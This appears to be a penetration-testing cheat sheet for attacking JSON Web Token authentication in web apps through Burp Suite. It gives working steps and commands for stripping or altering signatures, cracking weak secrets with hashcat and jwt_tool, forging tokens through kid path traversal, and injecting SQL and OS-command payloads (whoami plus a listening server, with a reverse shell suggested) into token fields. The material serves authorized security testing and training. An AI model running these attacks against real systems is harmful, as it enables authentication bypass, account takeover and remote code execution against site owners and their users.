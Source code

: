 1. ****Signature not being checked****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Tab or JOSEPH.
4. Change Payload section and Remove the Signature completely or try changing somecharacters in signature
5. Done, Forward the Request.
```

1. ****Crack the secret key****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If JWT-Heartbreaker Plugin is installed then weak secret-key will directly be shown to you.
																			OR
3. Copy JWT Token and store it in a text file then usse Hashcat to crack the Secret key using below command.
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force" 
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show" //this will show cracked secret-key
																			OR
3. Use Jwt_Tool to crack the secret key using below command:
			"python3 jwt_tool.py <JWT> -C -d secrets.txt"
4. Now Use the Secret key to forge the request using jwt.io or jwt_tool with option "-p"
5. Done, Use the generated token in request and forward the request.

* You can also find any leaking secret key in jwt.json config file.
```

1. **Attacks using kid in JWT token.**

```python
Use arbitrary files to verify
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If there is kid in header section of JWT_token then forge a new JWT token using jwt_tool
		'python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""' 
* Alternatively, we may utilise the content of any file in the web root, such as CSS or JS, to validate the Signature.
		'python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"'
4. Manipulate payload section and now use the generated token in request.
5. Done, Forward the Request. 

SQL injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with sqli payload.
4. You can try SQLi not only in kid but in any field of payload section.
		"python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem"
5. Done, Forward the request and escalate sqli further.

Command injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with os commands payload.
	"kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &"
4. Now use the forged JWt token in request
5. Check if you can connect to the server on port 1337 or instead use reverse shell in payload and check if you get connection back
6. DOne

```

